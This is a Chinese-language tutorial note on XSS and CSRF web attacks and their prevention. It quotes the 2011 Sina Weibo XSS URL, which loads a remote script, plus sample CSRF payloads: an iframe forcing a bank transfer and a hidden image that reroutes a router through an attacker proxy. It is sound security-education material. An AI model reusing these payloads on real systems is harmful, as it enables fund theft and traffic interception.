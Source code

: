 ### XSS and CSRF

来自维基百科：

 - **CSS** 

跨站脚本（英语：Cross-site scripting，通常简称为：XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML以及用户端脚本语言。

XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java，VBScript，ActiveX，Flash或者甚至是普通的HTML。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

 - **CSRF**

跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。[1] 跟跨网站脚本（XSS）相比，XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。

#### XSS 攻击方法及防范

XSS 大致可以分为两类：反射型 XSS 和储存型 XSS 。

 - 反射型 XSS

被动的非持久性XSS。诱骗用户点击URL带攻击代码的链接，服务器解析后响应，在返回的响应内容中隐藏和嵌入攻击者的XSS代码，被浏览器执行，从而攻击用户。
URL可能被用户怀疑，但是可以通过短网址服务将之缩短，从而隐藏自己。

 - 储存型 XSS

主动提交恶意数据到服务器，攻击者在数据中嵌入代码，这样当其他用户请求后，服务器从数据库中查询数据并发给用户，用户浏览此类页面时就可能受到攻击。典型的例子是留言板。

还有 DOM-based XSS（基于 DOM 的 XSS），一般是攻击者通过代码注入（输入框，留言板）执行恶意代码，盗取 cookie ，获取敏感信息，进一步发起 CSRF 。

防范：

 - 用户输入过滤。对用户提交的数据进行有效性验证，仅接受指定长度范围内并符合我们期望格式的的内容提交，阻止或者忽略除此外的其他任何数据
 - 用户输出转义，当需要将一个字符串输出到Web网页时，同时又不确定这个字符串中是否包括XSS特殊字符，为了确保输出内容的完整性和正确性，输出HTML属性时可以使用HTML转义编码（HTMLEncode）进行处理，输出到 `<script>` 中，可以进行JS编码。现在主流框架 Vue，React，或者衍生的 UI 框架，其实都有对输入输出做 XSS 防范。
 - 将重要的cookie标记为httponly，这样的话当浏览器向Web服务器发起请求的时就会带上cookie字段，但是在js脚本中却不能访问这个cookie，这样就避免了XSS攻击利用JavaScript的document.cookie获取cookie。【这种方法其实不是避免 XSS ，只是减小了可能的危害】

[2011年新浪微博的 XSS 攻击](https://coolshell.cn/articles/4914.html)是储存型 XSS 。其利用了微博广场页面 http://weibo.com/pub/star 的一个URL注入了js脚本，其通过 http://163.fm/PxZHoxn 短链接服务，将链接指向：

http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update

注意，上面URL链接中的其实就是 `<script src=//www.2kt.cn/images/t.js></script>`。

点击这个链接的用户会自动发一条类似“郭美美事件的一些未注意到的细节 https://t.cn/amsDE” 的微博（博文中的链接是一个新的 evil url，一旦其他用户点击，就会把类似链接传递下去）。

#### CSRF 攻击方法和防范

以下内容译自 [CROSS-SITE REQUEST FORGERY GUIDE: LEARN ALL ABOUT CSRF ATTACKS AND CSRF PROTECTION](http://www.veracode.com/security/csrf)

CSRF：恶意网站向一个 Web app 发出请求，而用户已经在别的站点认证了这个 Web 程序。用这种方法，攻击者可以通过用户信任的浏览器，访问目标 web app 的功能。被攻击的目标包括 Web app，比如社交媒体，浏览器邮件客户端，网银和网络设备的 Web 界面。

---

##### CSRF 的关键概念

 - 恶意请求从用户访问的站点发送到攻击者觉得经过受害者认证的其他站点。
 - 通过目标站点身份验证的恶意请求，经受害者的浏览器被发送到目标站点。
 - 漏洞存在于受影响的 Web app 中，而不是受害者的浏览器或托管CSRF的站点。

---

##### 执行一次 CSRF 攻击

CSRF 中，攻击者利用了目标 Web app 的身份认证机制。一次 CSRF 中，受害者必须通过目标站点的身份认证（登陆）。举个例子，网银 `examplebank.com` 有 CSRF 漏洞，如果我浏览这个站点上藏有 CSRF 隐患的页面，但是我没有登录，那么无事发生。假如我登录了，攻击中的请求将被执行，看起来就好像是我做的一样。（浏览器无法辨别用户是否主动请求）。

接下来讲一下，上面的攻击的细节。首先假设我在 `examplebank.com` 登陆了我的帐号，所以我可以做一些网上银行操作，包括转账。

现在我碰巧访问了 `somemalicioussite.com` ，这个站点攻击 `examplebank.com` 的用户，并且在本站设置了一个 CSRF 攻击，中招的用户会向帐号 123456789 转帐 $1,500.00 。在 `somemalicioussite.com` 的某个地方，攻击者加了这样一行代码：

```javascript
<iframe src="//www.veracode.com/%3Ca%20href%3D"http://examplebank.com/app/transferFunds?amount=1500&destinationAccount=123456789">http://examplebank.com/app/transferFunds?amount=1500&destinationAccount=..." >
```

通过加载这个 iframe ，我的浏览器会向 `examplebank.com` 发送一条转账请求，因为我已经在 `examplebank.com` 登陆了，所以请求将被执行，$1,500.00 转给了帐号 123456789 。

---

##### 另一个 CSRF 例子

我买了一个新的家居无线路由器。同诸多 wifi 路由器，它通过一个 web 界面设置参数。我收到路由器的时候，它有一个内置 IP 地址 192.168.1.1 。我正不知如何设置路由器，刚好 `somemalicioussite.com` 上面有一个帖子有相关教程。攻击者在这个教程里面为我的路由器添加了一个代理，指向服务 123.45.67.89 ，以后通过路由器的流量都会经过这个代理，包括密码，sessionId。

当我点击这个教程的时候，我忽略了一张加载失败的 1px 的小图：

```javascript
<img src=”http://192.168.1.1/admin/config/outsideInterface?nexthop=123.45.67.89” alt=”pwned” height=”1” width=”1”/>
```

攻击者知道我正在读他们的教程，我会登陆路由器设置界面，所以他们把 CSRF 攻击藏在教程里面。有了上面的设置，我的路由会被添加一个代理服务器，所有经过路由器的流量也会经过这个代理服务器，攻击者就可以搞坏事了。

---

##### 预防 CSRF

 - 修改请求不要使用 GET ，暴露参数
 - img/script 标签可以跨域，能带上cookie，并且还支持除GET之外的其它方式。所以这种方式也是能实现CSRF的

方法一是每次请求都要在参数里面显示地带上token即登陆的票，虽然跨域请求能带上cookie，但是通过document.cookie仍然是获取不到其它源的cookie的，所以攻击者无法在代码里面拿到cookie里面的token，所以就没办法了。方法一的缺点是会暴露token，所以需要带token的最好不能是GET，因为GET会把参数拼在url里面，用户可能会无意把链接发给别人，但不知道这个链接带上了自己的登陆信息。

方法二是每次转账请求前都先请求一个随机串，这个串只能用一次转账或者支付请求，用完就废弃，只有这个串对得上才能请求成功，攻击者是无法拿到这个串的，因为如果跨域请求带cookie，浏览器要求Access-Control-Allow-Origin不能为通配符，只能为指定的源。

> 参考文章

> [对于跨站脚本攻击（XSS攻击）的理解和总结](https://www.imooc.com/article/13553)
> 
> [存储型XSS与反射型XSS有什么区别？](https://www.zhihu.com/question/21289758)
> 
> [新浪微博的XSS攻击](https://coolshell.cn/articles/4914.html)
>
> [CROSS-SITE REQUEST FORGERY GUIDE: LEARN ALL ABOUT CSRF ATTACKS AND CSRF PROTECTION](http://www.veracode.com/security/csrf)
>
> [我知道的跨域与安全](https://fed.renren.com/2018/01/20/cross-origin/)